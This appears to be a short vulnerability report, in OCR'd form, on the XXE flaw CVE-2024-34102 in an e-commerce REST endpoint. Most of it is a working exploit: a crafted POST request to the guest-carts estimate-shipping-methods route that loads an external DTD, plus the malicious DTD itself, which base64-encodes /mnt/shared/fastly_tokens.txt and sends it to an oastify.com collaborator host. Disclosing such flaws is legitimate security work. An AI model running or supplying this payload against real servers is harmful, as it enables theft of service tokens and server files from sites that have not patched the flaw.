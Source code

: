 # Reading server files using XXE CVE-2024-34102 [$DOMAIN]


An attacker could exploit this vulnerability by sending a crafted XML document that references external entities. Exploitation of this issue does not require user interaction.

POST Request 
``` 

POST /rest/V1/guest-carts/1/estimate-shipping-methods HTTP/1.1
Host: $DOMAIN
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/116.0
Connection: close
Content-Length: 259
Content-Type: application/json
Accept-Encoding: gzip

{"address":{"totalsCollector":{"collectorList":{"totalCollector":{"sourceData":{"data":"<?xml version=\"1.0\" ?> <!DOCTYPE r [ <!ELEMENT r ANY > <!ENTITY % sp SYSTEM \"http://www.info-sec.cl/malicious2.dtd\"> %sp; %param1; ]> <r>&exfil;</r>","options":16}}}}}}

```

File malicious2.dtd 

```
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/mnt/shared/fastly_tokens.txt">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://$COLLABID.oastify.com/dtdcoke.xml?%data;'>">

```

Content of ` /mnt/shared/fastly_tokens.txt` file

```

```

# Impact 

Reading sensitive information from files.
